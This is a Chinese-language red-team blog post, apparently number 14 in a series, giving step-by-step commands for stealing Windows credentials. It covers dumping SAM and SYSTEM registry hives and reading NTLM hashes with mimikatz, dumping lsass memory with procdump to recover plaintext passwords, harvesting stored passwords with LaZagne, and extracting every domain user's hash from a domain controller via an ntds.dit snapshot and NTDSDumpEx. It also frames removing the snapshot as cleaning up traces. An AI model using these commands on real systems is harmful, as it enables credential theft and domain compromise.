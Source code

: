 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/W-RuXSSRZyBmIHC0UZ79rw)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "WX20200923-211932@2x.png")

  

  

大家好，这里是 **渗透攻击红队** 的第 **14** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），每周一更

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

第一章：信息搜集

  

目标资产信息搜集的程度，决定渗透过程的复杂程度。

目标主机信息搜集的深度，决定后渗透权限持续把控。

渗透的本质是信息搜集，而信息搜集整理为后续的情报跟进提供了强大的保证。

  ----Micropoor

  

**密码窃取**

**注册表读取密码**

  

* * *

注册表读取密码主要获取的是两个文件：

```
`reg save HKLM\SYSTEM Sys.hiv``reg save HKLM\SAM Sam.hiv`
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLZRbahibuoBfObz6IMmR92Txez0J0pgJ3UlFIYb5AzF6IfRk2ENiaqh8XibgUuZku6mPM91cY3TH1uQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

导出注册表之后，我们可以通过mimikatz读取密码hash值：  

```
`mimikatz读取密码``mimikatz.exe "lsadump::sam /sam:Sam.hiv /system:Sys.hiv " exit> hiv.txt`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

其中：NTLM加密的hash就是管理员登陆的加密密码！  

  

* * *

  

**lsass内存读取密码**

  

  

lsass.exe是一个系统进程，用于微软Windows系统的安全机制。它用于本地安全和登陆策略zhi。

要想读取内存的密码，前提是用户登陆过机器，登陆过就会在内存中停留：lsass.exe

使用工具：procdump.exe

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

然后再通过mimikatz读取：

08或者08以下的机器读取的是明文密码：测试机器是Windows server 2008

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

**LaZagne读取各类密码（浏览器等）**

  

LaZagne是用于开源应用程序获取大量的密码存储在本地计算机上。每个软件都使用不同的技术（明文，API，自定义算法，数据库等）存储其密码。开发该工具的目的是为最常用的软件找到这些密码。

下载地址：

https://github.com/AlessandroZ/LaZagne

https://github.com/AlessandroZ/LaZagne/releases

```
`获取所有密码：``lazagne.exe all`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

**获取域内所有用户hash**

  

前提是拿到域控！  

windows的密码是经过hash后存储的，本地存在hklm\\sam，hklm\\system注册表中。

域里面存在域控制器的c:\\windows\\ntds\\ntds.dit中

ntds.dit其实就是一个esent数据库，微软本身就有一系列的文档化api能够操作这个数据库。

相关连接：https://msdn.microsoft.com/en-us/library/windows/desktop/gg294074.aspx

一：创建快照

创建快照 ,必须在域控服务器上操作：

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

其中：成功生成快照集 {5347834e-33bd-4c0a-a54e-13947650ae18} 这里面的ID要记住！

二：挂载快照

```
ntdsutil snapshot "mount {5347834e-33bd-4c0a-a54e-13947650ae18}" quit quit
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

三：复制快照到本地

```
copy C:\$SNAP_202010141916_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

四：卸载快照（擦屁股）

```
ntdsutil snapshot "unmount {5347834e-33bd-4c0a-a54e-13947650ae18}" quit quit
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

五：删除快照

```
ntdsutil snapshot "delete {5347834e-33bd-4c0a-a54e-13947650ae18}" quit quit
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

六：获取key（用于解密）

通过注册表方式，吧key保存下来

```
reg save HKLM\SYSTEM c:\Sys.hiv
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

七：使用NTDSDumpEx获取所有域用户的hash

```
NTDSDumpEx.exe -d ntds.dit -o hash.txt -s Sys.hiv -h
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

hash.txt里面是所有域用户的账号和密码hash。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

* * *

  

渗透攻击红队 发起了一个读者讨论 快来发表你的评论吧！

  

参考文章：

https://www.jianshu.com/p/e1990751bf84

https://github.com/AlessandroZ/LaZagnehttps://github.com/AlessandroZ/LaZagne/releases/

https://msdn.microsoft.com/en-us/library/windows/desktop/gg294074.aspx  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "qrcode_for_gh_c7af3a6c01f1_258.jpg")

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点分享

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点点赞

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点在看